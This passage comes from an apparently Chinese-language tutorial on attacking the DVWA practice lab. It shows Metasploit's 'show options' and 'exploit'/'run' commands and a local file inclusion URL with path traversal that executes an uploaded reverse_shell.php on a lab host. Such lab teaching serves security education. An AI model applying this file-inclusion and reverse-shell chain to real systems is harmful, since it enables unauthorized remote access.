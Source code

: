 我们还可以通过 `show options` 查看我们设置是否无误：

![show_options](../imgs/wm_80.png)

我们可以使用 `exploit` 亦或者是 `run` 命令开始攻击，两个命令的作用相同，使用任意一个都可以：

![show_run](../imgs/wm_81.png)

做好这一切准备的工作，我们就使用本地包含来是我们刚刚放置的脚本运行：

```
192.168.122.102/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/reverse_shell.php
```
